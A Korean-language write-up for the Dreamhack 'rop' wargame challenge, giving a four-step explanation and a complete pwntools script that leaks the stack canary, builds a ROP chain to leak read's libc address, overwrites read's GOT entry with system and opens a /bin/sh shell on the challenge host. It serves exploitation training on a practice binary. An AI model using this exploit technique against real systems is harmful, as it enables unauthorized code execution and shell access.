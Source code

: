 1. 프로그램이 `puts(read_got)`를 실행하여 `read`**의 address를 출력**하게 한다.
2. 출력한 `read`의 address를 `recv`한다. 이를 이용해 `system`**의 address를 계산**한다.
3. 프로그램이 `read(0, read_got, 0x10)`을 실행하여 계산한 `system`의 address로 `read`**의 GOT entry를 덮어 쓰게** 한다.
4. `read("/bin/sh")`를 실행하면 `read`의 GOT entry가 `system`의 주소로 수정되어 있기 때문에 `system("/bin/sh")`**가 실행**된다.

```python
from pwn import *

#p = process("./rop")
p = remote("host3.dreamhack.games", 9019)

e = ELF("./rop")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

buf = b"A"*(0x40-0x8+1)
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
cnry = u64(b"\x00" + p.recvn(7))
#print(hex(cnry))

read_plt = e.plt["read"]
read_got = e.got["read"]
puts_plt = e.plt["puts"]
pop_rdi = 0x00000000004007f3
pop_rsi_pop_r15 = 0x00000000004007f1
ret = 0x000000000040055e

payload = b"A"*(0x40-0x8) + p64(cnry) + b"A"*0x8

# puts(read_got)
payload += p64(pop_rdi) + p64(read_got)
payload += p64(puts_plt)

# read(0, read_got, 0x10)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_pop_r15) + p64(read_got) + p64(0)
payload += p64(read_plt)

# read("/bin/sh") == system("/bin/sh")
payload += p64(pop_rdi) + p64(read_got + 0x8)
payload += p64(read_plt)

p.sendafter("Buf: ", payload)
read = u64(p.recvn(6) + b"\x00"*2)
print(hex(read))
#lb = read - libc.symbols["read"]
#system = lb + libc.symbols["system"]
system = read - 0xc0bf0
#print("read", hex(read))
#print("libc_base", hex(lb))
#print("system", hex(system))

p.send(p64(system) + b"/bin/sh\x00")

p.interactive()
```
